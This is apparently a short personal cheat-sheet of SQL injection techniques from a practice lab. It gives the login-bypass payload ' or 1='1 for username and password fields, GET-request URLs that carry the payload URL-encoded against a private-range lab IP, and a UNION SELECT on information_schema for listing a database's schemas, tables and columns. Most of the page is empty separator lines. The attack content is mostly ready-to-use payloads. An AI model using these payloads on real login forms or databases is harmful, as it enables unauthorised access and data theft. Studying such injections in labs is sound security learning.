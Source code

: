     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;

    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;

    SELECT table_schema,table_name,column_name FROM information_schema.columns ;

    
_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
